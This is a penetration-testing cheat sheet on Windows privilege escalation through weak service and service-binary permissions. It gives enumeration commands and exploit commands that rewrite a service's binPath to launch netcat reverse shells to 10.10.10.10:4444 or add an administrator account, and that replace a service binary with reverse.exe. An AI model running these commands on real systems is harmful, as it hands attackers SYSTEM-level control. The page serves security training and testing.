 # Weak Service Permissions

## Theory

It is very often in Windows environments to discover services that run with SYSTEM privileges. If you have write permissions over the folder or binary used by the service, or permissions over the service you can use it to escalate you privileges.

## Practice

### Service Permissions

If we have enought permissions over a service, we can edit the `binPath` parameters and replace it with our own binary or command.

{% tabs %}
{% tab title="Enum" %}
If you have `SERVICE_CHANGE_CONFIG` or `SERVICE_ALL_ACCESS` permissions, you can replace the binary.

We can use [AccessChk](https://learn.microsoft.com/fr-fr/sysinternals/downloads/accesschk) from sysinternals tools to enum permissions over services.

```powershell
#list all the services that a specific user can modify.
accesschk64.exe -uwcqv "pwned" * -accepteula
accesschk64.exe -uwcqv "Authenticated Users" * -accepteula
accesschk64.exe -uwcqv "BUILTIN\Users" * -accepteula
accesschk.exe -uwcqv %USERNAME% * -accepteula

#list permissions of evryone.
accesschk64.exe -uwcqv * -accepteula

#list permissions for "VulnSvc" service.
accesschk64.exe -uwcqv VulnSvc -accepteula
```

We also can use the `servicesinfo` module of winpeas

```powershell
winPEASx64.exe servicesinfo
```
{% endtab %}

{% tab title="Exploit" %}
We can edit the binpath parameter with following commands

```powershell
sc.exe config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc.exe config <Service_Name> binpath= "net localgroup administrators username /add"
sc.exe config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"s
sc.exe config <Service_Name> binpath= "C:\Documents and Settings\PEPE\reverseShell.exe"
```

And then, restart the service

```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc.exe stop <Service_Name>
sc.exe start <Service_Name>
```
{% endtab %}
{% endtabs %}

### File Permissions

If we have enought permissions over the binary of a service, we can replace it to our own binary. If you have write permissions over the folder you can do [DLL Hijacking](weak-service-permissions.md)

{% tabs %}
{% tab title="Enum" %}
We can get every binary that is executed by a service using wmic and check your permissions using icacls

```powershell
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

Or we can use `sc` and `icacls`

```powershell
#Get list of services
sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt

#Get each permissions over BINARY_PATH_NAME 
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
```

Or we can use the `servicesinfo` module of winpeas

```powershell
winPEASx64.exe servicesinfo
```

An alternative to enumerate full list of permissions for the services running is to use the module [Get-ModifiableServiceFile](https://powersploit.readthedocs.io/en/latest/Privesc/Get-ModifiableServiceFile/) from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

```powershell
Get-ModifiableServiceFile | more
```
{% endtab %}

{% tab title="Exploit" %}
We just have to replace the binary.

```powershell
copy /y c:\Temp\reverse.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
```
{% endtab %}
{% endtabs %}

### Registry Permisions
